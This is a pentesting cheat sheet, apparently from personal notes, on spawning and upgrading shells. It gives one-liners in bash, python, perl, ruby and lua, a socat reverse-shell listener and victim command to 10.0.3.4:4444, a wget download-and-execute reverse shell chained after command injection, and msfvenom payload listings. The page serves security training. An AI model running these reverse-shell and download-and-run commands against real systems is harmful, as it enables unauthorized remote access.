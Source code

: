 ```yaml
---
title: Spawn a shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - terminal
  - shells
---
```


# Spawn a shell


Webshell is a script written in a language that is executed by a server. Web shell are not fully interactive. 

??? note "Resources for upgrading simple shells"
    - [https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html](https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html).
    - [Cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
    - [Shell creation](https://rosettacode.org/wiki/Execute_a_system_command).
    - [About webshells](https://github.com/BlackArch/webshells).


Sidenote: Also, you can generate a webshell by using  msfvenom

## Clasification of shells

On a Linux system, the shell is a program that takes input from the user via the keyboard and passes these commands to the operating system to perform a specific function.

There are three main types of shell connections:

| **Shell Type** |  **Description** | 
| ----------- | -------------- |
| Reverse shell |  Initiates a connection back to a "listener" on our attack box. | 
| Bind shell | "Binds" to a specific port on the target host and waits for a connection from our attack box. | 
| Web shell | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command. |


## Spawn a shell

### bash

```bash
# Upgrafe shell with running these commands all at once:

SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```


### python

```bash
python -c 'import os; os.system("/bin/sh")'
```

```bash
 # using python for a pseudo terminal
python -c 'import pty; pty.spawn("/bin/bash")'
```


### bash

```bash
bash -i

# Using echo
echo 'os.system('/bin/bash')'
```


### ssh

```bash
/bin/sh -i
```


### perl

```bash
perl -e 'exec "/bin/sh";'

perl:  exec "/bin/sh";
```


### ruby

```bash
ruby:  exec "/bin/sh";
```


### lua

```bash
lua: os.execute(‘/bin/sh’)
```
  

### socat

```bash
# Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat isn’t installed, there exists other options. There are standalone binaries that can be downloaded from this Github repo: [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

With a command injection vuln, it’s possible to download the correct architecture `socat` binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

On Kali, run:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

and you’ll catch a fully interactive TTY session. It supports tab-completion, SIGINT/SIGSTP support, vim, up arrow history, etc. It’s a full terminal. 

### stty options

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Ctrl-Z
 

# In Kali
$ stty raw -echo
$ fg
```
  
```bash
# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### msfvenom

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  
```

Also msfvenom can use metasploit payloads under “cmd/unix”  to generate one-liner bind or reverse shells. List options with:

```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```
